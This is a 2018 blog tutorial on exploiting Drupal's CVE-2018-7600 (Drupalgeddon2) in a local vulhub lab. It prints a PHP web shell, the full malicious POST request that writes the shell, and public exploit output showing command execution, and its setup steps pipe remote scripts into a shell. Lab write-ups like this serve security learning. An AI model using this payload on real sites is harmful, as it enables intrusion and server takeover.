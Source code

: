 ```yaml
---
layout: post
title:  "Exploiting drupalgeddon2"
tagline: "A closer look at CVE-2018-7600"
description: "A closer look at CVE-2018-7600 detailing how to exploit it and how to set up a vulnerable test environment with vulhub"
tags: [notes, durpal, exploits, vulhub, drupalgeddon2]
date:   2018-09-11
comments: true
image:
  feature: blog/5/feature.jpg
  hero: blog/5/header.jpg
  credit:
  creditlink:
---
```

## Summary
**On 28 March 2018** The Drupal team [announced a highly critical remote code execution vulnerability](https://www.drupal.org/sa-core-2018-002) in Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1. Although a patch for this issue has been made broadly available, there are still sites that have [not been upgraded](/reports/3/).

## Deploying a vulnerable environment
Before we dive into exploiting CVE-2018-7600, we will need a target. A quick and easy way to setup a vulnerable target to practice on is using [Vulhub](https://github.com/vulhub/vulhub), an open-source collection of pre-built vulnerable docker environments. The project is primarily is Chinese, however there is work being done by myself and others to translate the project to English.

We can [install vulhub and it's dependencies](https://github.com/vulhub/vulhub/blob/master/README.md#installation) on a debian based system (Ubuntu / Kali) by running the following

```shell_session
# Install pip
$ sudo curl -s https://bootstrap.pypa.io/get-pip.py | python3

# Install the latest version docker
$ sudo curl -s https://get.docker.com/ | sh

# Run docker service
$ sudo service docker start

# Install docker compose
$ sudo pip install docker-compose

# Download project
$ git clone https://github.com/vulhub/vulhub.git

# Enter directory
$ cd vulhub

```

Once vulhub is installed, we can go ahead and setup our Drupal 8 instance.
You can also view [the documentation for this specific environment](https://github.com/vulhub/vulhub/blob/master/drupal/CVE-2018-7600/README.md) (translated by me!).

```shell_session
# Enter the environment directory
$ cd drupal/CVE-2018-7600/

# Start the environment
$ sudo docker-compose up -d
```

With the vulnerable environment now setup and running we can visit `http://127.0.0.1:8080/` and complete the Drupal installation.

During the installation we will select the "standard" profile and "SQLite" as the database type.


![](/assets/img/blog/5/drupal-install.png)

## Exploit

To exploit this vulnerability, we will send a POST request to our target and write the following to shell.php
```php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```

This can be done by sending the following command to the target

```shell
echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./shell.php
```

The request will ultimately look like this

```http
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: 127.0.0.1:8080
User-Agent:
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Authorization: Basic
Content-Type: application/x-www-form-urlencoded
Content-Length: 245

form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./shell.php
```

Once the shell has been written we can interact with it at `http://127.0.0.1:8080/shell.php?c=id` replacing `id` with the command we wish to run.

---

Alternatively this can also be done automatically with [this exploit](https://github.com/dreadlocked/Drupalgeddon2) written by [@\_dreadlocked](https://twitter.com/_dreadlocked) and [@g0tmi1k](https://twitter.com/g0tmi1k)

```shell
$ ruby /opt/exploit-database/exploits/php/webapps/44449.rb http://127.0.0.1:8080
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://127.0.0.1:8080/
--------------------------------------------------------------------------------
[!] MISSING: http://127.0.0.1:8080/CHANGELOG.txt (404)
[+] Found  : http://127.0.0.1:8080/core/CHANGELOG.txt (200)
[+] Drupal?: 8.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo JMJQYOFR
[+] Result : JMJQYOFR<span class="ajax-new-content"></span>
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: File Write To Web Root (./)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }<span class="ajax-new-content"></span>
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://127.0.0.1:8080/s.php' -d 'c=whoami'
41bc2a2fa908>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
41bc2a2fa908>>
```
